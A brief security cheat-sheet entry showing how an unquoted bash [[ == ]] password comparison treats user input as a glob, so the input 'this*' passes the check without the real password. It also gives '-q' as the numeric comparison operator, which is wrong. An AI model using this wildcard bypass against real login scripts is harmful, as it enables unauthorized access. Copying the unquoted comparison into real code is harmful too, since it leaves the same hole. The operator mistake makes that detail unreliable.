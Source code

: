 ## Bash Escape / Exploit

### Summary
- Bash Comparison

### Bash Comparison
- **= or == :** for string comparisons
- **-q :** for numeric comparisons.


**Vulnerable Code**
``` bash
DB_PASS="thisisdbpass"; => Just for example, its should be REDACTED
USER_PASS="i_dont_know_what_is_db_pass"

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi
```
The result of that will be "Failed" because DB_PASS and USER_PASS does not match!

**Exploit**
``` bash
DB_PASS="thisisdbpass"; => Just for example, its should be REDACTED
USER_PASS="this*" => asterisk character it acts as a wildcard and matches any part of the string.

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi
```